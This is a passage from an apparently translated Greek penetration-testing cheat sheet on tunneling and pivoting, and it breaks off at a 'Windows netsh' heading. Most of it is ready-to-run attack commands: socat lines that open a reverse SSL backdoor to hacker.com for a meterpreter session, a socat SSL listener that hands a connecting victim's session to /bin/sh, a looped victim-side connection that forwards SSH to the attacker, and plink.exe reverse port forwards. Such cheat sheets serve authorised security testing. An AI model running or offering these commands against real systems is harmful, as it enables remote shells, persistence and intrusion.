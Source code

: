 ```bash
victim> socat.exe TCP-LISTEN:2222 OPENSSL,verify=1,cert=client.pem,cafile=server.crt,connect-timeout=5|TCP:hacker.com:443,connect-timeout=5
#Execute the meterpreter
```
Μπορείτε να παρακάμψετε έναν **μη αυθεντικοποιημένο διακομιστή μεσολάβησης** εκτελώντας αυτή τη γραμμή αντί για την τελευταία στην κονσόλα του θύματος:
```bash
OPENSSL,verify=1,cert=client.pem,cafile=server.crt,connect-timeout=5|PROXY:hacker.com:443,connect-timeout=5|TCP:proxy.lan:8080,connect-timeout=5
```
[https://funoverip.net/2011/01/reverse-ssl-backdoor-with-socat-and-metasploit/](https://funoverip.net/2011/01/reverse-ssl-backdoor-with-socat-and-metasploit/)

### SSL Socat Tunnel

**/bin/sh κονσόλα**

Δημιουργήστε πιστοποιητικά και στις δύο πλευρές: Πελάτης και Διακομιστής
```bash
# Execute these commands on both sides
FILENAME=socatssl
openssl genrsa -out $FILENAME.key 1024
openssl req -new -key $FILENAME.key -x509 -days 3653 -out $FILENAME.crt
cat $FILENAME.key $FILENAME.crt >$FILENAME.pem
chmod 600 $FILENAME.key $FILENAME.pem
```

```bash
attacker-listener> socat OPENSSL-LISTEN:433,reuseaddr,cert=server.pem,cafile=client.crt EXEC:/bin/sh
victim> socat STDIO OPENSSL-CONNECT:localhost:433,cert=client.pem,cafile=server.crt
```
### Remote Port2Port

Συνδέστε την τοπική θύρα SSH (22) με την θύρα 443 του επιτιθέμενου.
```bash
attacker> sudo socat TCP4-LISTEN:443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr #Redirect port 2222 to port 443 in localhost
victim> while true; do socat TCP4:<attacker>:443 TCP4:127.0.0.1:22 ; done # Establish connection with the port 443 of the attacker and everything that comes from here is redirected to port 22
attacker> ssh localhost -p 2222 -l www-data -i vulnerable #Connects to the ssh of the victim
```
## Plink.exe

Είναι σαν μια κονσόλα PuTTY έκδοση (οι επιλογές είναι πολύ παρόμοιες με έναν ssh πελάτη).

Καθώς αυτό το δυαδικό αρχείο θα εκτελείται στον θύμα και είναι ένας ssh πελάτης, πρέπει να ανοίξουμε την υπηρεσία ssh και την θύρα μας ώστε να μπορέσουμε να έχουμε μια αντίστροφη σύνδεση. Στη συνέχεια, για να προωθήσουμε μόνο την τοπικά προσβάσιμη θύρα σε μια θύρα στη μηχανή μας:
```bash
echo y | plink.exe -l <Our_valid_username> -pw <valid_password> [-p <port>] -R <port_ in_our_host>:<next_ip>:<final_port> <your_ip>
echo y | plink.exe -l root -pw password [-p 2222] -R 9090:127.0.0.1:9090 10.11.0.41 #Local port 9090 to out port 9090
```
## Windows netsh
